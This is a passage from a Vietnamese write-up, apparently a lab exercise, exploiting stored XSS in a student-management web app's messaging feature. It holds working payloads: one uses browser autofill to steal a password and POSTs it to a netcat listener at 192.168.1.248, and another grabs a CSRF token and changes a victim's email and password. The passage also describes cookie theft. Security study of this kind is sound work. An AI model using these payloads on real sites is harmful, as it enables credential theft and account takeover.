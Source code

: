    Xong xuôi ta bấm **send** để gửi cho student có username **pique**.

- Thử đăng nhập vào user **pique** rồi bấm **View message** để xem tin nhắn của user **messi**:

  ![image](https://user-images.githubusercontent.com/61876488/119177372-6f4b5200-ba96-11eb-9149-03c3504ef5e2.png)

- Ngay lập tức từ host 192.168.1.248 ta nhận được request:

  ![image](https://user-images.githubusercontent.com/61876488/119185616-1cc36300-baa1-11eb-8988-e442a50bd368.png)

- Như vậy chúng ta đã lấy được toàn bộ cookie, test thử cookie vừa mới lấy được bằng cách thử đăng nhập vào user **messi** sau đó thay value bằng cookie login của user **pique**. Kết quả là đăng nhập thành công và chiếm mọi quyền của user **pique**.


**b)  Lấy mật khẩu nhờ tính năng tự động điền (không cần người dùng tương tác):**

- Cách khai thác và endpoint tương tự như khi khai thác chiếm cookie ở trên. Giả sử user **pique** bật tính năng tự động điền thông tin tài khoản trên browser:

  ![image](https://user-images.githubusercontent.com/61876488/119221323-ffca7680-bb18-11eb-8845-72e7d9fbc084.png)

- Khi đó user **messi** có thể vào chức năng nhắn tin và gửi cho user **pique** nội dung như sau:

  ```html
  <form>
   <input type="text" name="user">
   <input type="password" name="pass" onchange="xss(this.value)">
  </form>
  <script>
  function xss(val){
      if(val.length){
          // send request to host 192.168.1.248 which is listened by netcat
          fetch("http://192.168.1.248", {method:"POST",mode: "no-cors",body: document.getElementsByName("user")[0].value+" : "+val})
      } 
  }
  </script>
  ```

- Khi user **pique** vào xem tin nhắn thì malicious script sẽ được thực thi, cho kết quả như sau:

  ![image](https://user-images.githubusercontent.com/61876488/119221512-f988ca00-bb19-11eb-8dc0-15bfaaf2b73d.png)

**c) Bypass CSRF thông qua XSS:**

- Khi student hay teacher truy cập vào chức năng update thông tin sinh viên thì một CSRF token sẽ được sinh ra và đặt trong hidden input:

  ![image](https://user-images.githubusercontent.com/61876488/119271521-25947000-bc2c-11eb-855f-a3cb007e1239.png)

- Chúng ta có thể hoàn toàn chiếm được token này bằng cách gửi payload này cho student khác thông qua chức năng nhắn tin:

  ```html
  <script>
  var req = new XMLHttpRequest();
  req.onload = handleResponse;
  req.open("get","/st_update.php",true);
  req.send();
  function handleResponse() {
      var token = this.responseText.match(/name="csrf" value="(w+)"/)[1];
      var changeReq = new XMLHttpRequest();
      changeReq.open("post", "/st_update_a.php", true);
      changeReq.send("csrf="+token+"&email=leo@barca.com&phonenum=0318370123&pass=1234567&cpass=1234567&submit=") // dùng user này để khiến user khác phải thay đổi thông tin thông qua CSRF
  };
  </script>
  ```

